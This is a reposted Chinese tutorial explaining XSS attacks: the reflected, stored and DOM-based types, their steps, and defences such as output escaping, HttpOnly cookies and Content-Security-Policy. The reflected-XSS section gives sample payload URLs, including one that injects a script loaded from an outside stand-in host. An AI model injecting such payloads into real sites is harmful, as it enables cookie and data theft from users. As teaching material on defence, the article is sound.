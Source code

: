 # XSS攻击

> 本文转载至：[给你讲清楚什么是XSS攻击 - 程序员自由之路 - 博客园 (cnblogs.com)](https://www.cnblogs.com/54chensongxia/p/11643787.html)

## 一. 什么是XSS攻击

跨站脚本攻击（Cross Site Scripting）本来的缩写为CSS，为了与层叠样式表（Cascading Style Sheets，CSS）的缩写进行区分，将跨站脚本攻击缩写为XSS。因此XSS是跨站脚本的意思。

XSS跨站脚本攻击（Cross Site Scripting）的本质是攻击者在web页面插入恶意的script代码（这个代码可以是JS脚本、CSS样式或者其他意料之外的代码），当用户浏览该页面之时，嵌入其中的script代码会被执行，从而达到恶意攻击用户的目的。比如读取cookie，token或者网站其他敏感的网站信息，对用户进行钓鱼欺诈等。比较经典的事故有：

> 2011年6月28日，新浪微博被XSS攻击，大量用户自动转发微博、私信。自动关注用户，大量用户被莫名其妙地控制。因为可以使用JS代码代替用户单击按钮发送请求，所以损坏非常大。

### 1.1 XSS攻击的危害

- 通过 document.cookie 盗取 cookie中的信息
- 使用 js或 css破坏页面正常的结构与样式
- 流量劫持（通过访问某段具有 window.location.href 定位到其他页面）
- dos攻击：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。并且通过携带过程的 cookie信息可以使服务端返回400开头的状态码，从而拒绝合理的请求服务。
- 利用 iframe、frame、XMLHttpRequest或上述 Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，并且攻击者还可以利用 iframe，frame进一步的进行 CSRF 攻击。
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力。

## 二. XSS攻击的类型

### 2.1 反射型XSS攻击

反射型XSS漏洞常见于通过URL传递参数的功能，如网站搜索，跳转等。由于需要用户主动打开恶意的URL才能生效，攻击者往往会结合多种手段诱导用户点击。比如下面的URL：

```
http://x.x.x.x:8080/dosomething?message="<script src="http://www.hacktest.com:8002/xss/hacker.js"></script>"

或者

http://localhost/test.php?param=<script>alert(/xss/)</script>
```

POST的内容也可以触发反射型XSS，只不过它的触发条件比较苛刻（构建表单提交页面，并引导用户点击），所以非常少见。

**反射型XSS的攻击步骤**

1.攻击者构造出特殊的URL，其中包含恶意代码.
2.用户打开有恶意代码的URL时，网站服务器端将恶意代码从URL取出，拼接在HTML返回给浏览器.
3.用户浏览器接收到响应后解析执行，混在其中的恶意代码也会被执行。
4.恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户行为，调用目标网站接口执行攻击者指定的操作。

在网上找了一个大致示意图，凑合着看。
![](../images/5.png)

**注意：**Chrome和Safari能够检测到url上的xss攻击，将网页拦截掉，但是其他浏览器不行，如IE和Firefox。

**防御反射型XSS攻击**

1. 对输入检查
   对请求参数进行检查，一旦发现可疑的特殊字符就拒绝请求。需要注意的是用户可以绕过浏览器的检查，直接通过Postman等工具进行请求，所以这个检查最好前后端都做。
2. 对输出进行转义再显示
   通过上面的介绍可以看出，反射型XSS攻击要进行攻击的话需要在前端页面进行显示。所以在输出数据之前对潜在的威胁的字符进行编码、转义也是防御XSS攻击十分有效的措施。比如下面的方式:

```js
Copyapp.get('/welcome',function(req,res){
  //对查询参数进行编码，避免反射型 XSS攻击
  res.send(`${encodeURIComponent(req.query.type)}`);
})
```

### 2.2 存储型XSS攻击

恶意脚本永久存储在目标服务器上。当浏览器请求数据时，脚本从服务器传回并执行，影响范围比反射型和DOM型XSS更大。存储型XSS攻击的原因仍然是没有做好数据过滤：前端提交数据至服务器端时，没有做好过滤;服务端在按受到数据时，在存储之前，没有做过滤;前端从服务器端请求到数据，没有过滤输出。

比较常见的场景是，黑客写下一篇包含有恶意JavaScript代码的博客文章，文章发表后，所有访问该博客的用户，都会在他们的浏览器中执行这段恶意js代码。

**存储型XSS的攻击步骤**

1.攻击者将恶意代码提交到目标网站的数据库中。
2.用户打开目标网站时，网站服务端将恶意代码从数据库中取出，拼接在HTML中返回给浏览器。
3.用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4.恶意代码窃取用户数据并发送到攻击者的网站，或冒充用户行为，凋用目标网站接口执行攻击者指定的操作.
这种攻击常见于带有用户保存数据的网站功能，如论坛发帖，商品评论，用户私信等。

![img](../images/3.png)

**预防存储型XSS攻击**
预防存储型XSS攻击也是从输入和输出两个方面来考虑。

- 服务器接收到数据，在存储到数据库之前，进行转义和过滤危险字符;
- 前端接收到服务器传递过来的数据，在展示到页面前，先进行转义/过滤;

不论是反射型攻击还是存储型，攻击者总需要找到两个要点，即“输入点”与"输出点"，也只有这两者都满足，XSS攻击才会生效。“输入点”用于向 web页面注入所需的攻击代码，而“输出点”就是攻击代码被执行的地方。

### 2.3 DOM型XSS

DOM型XSS攻击，实际上就是前端javascript代码不够严谨，把不可信的内容插入到了页面，在使用.innerHTML、.outerHTML、.appendChild、document.write()等API时要特别小心，不要把不可信的数据作为HTML插入到页面上，尽量使用.innerText、.textContent、.setAttribut()等.

**DOM型XSS攻击步骤**

1.攻击者构造出特殊数据，其中包含恶意代码。
2.用户浏览器执行了恶意代码
3.恶意窃取用户数据并发送到攻击者的网站，或冒充用户行为，调用目标网站接口执行攻击者指定的操作.

DOM型XSS攻击中，取出和执行恶意代码由浏览器端完成，属于前端javascript自身的安全漏洞.

### 2.4 简单总结

![img](../images/4.png)

## 三. 一些其他的防范策略

- HTTP-only Cookie:禁止JavaScript读取某些敏感Cookie，攻击者完成XSS注入后也无法窃取此Cookie属性：防止脚本冒充用户提交危险操作
- 在服务端使用HTTP的Content-Security-Policy头部来指定策略，或者在前端设置meta标答。例如下面的配置只允许加载同域下的资源:

```js
CopyContent-Security-Policy:default-src 'self'`请输入代码`

<meta http-equiv="Content-Security-Policy" content="form-action 'self';">
```

- 当然也可以使用线程的安全扫描工具来检测。

就目前而言，应对XSS攻击的主要手段还是编码与过滤两种，编码用于将特殊的符号 "<、>、&、'、""进行**html转义**，而过滤则是阻止特定的标记、属性、事件。如果你不愿意为了严格的安全而限制产品本身的灵活，那么我更建议采用“编码”的方案。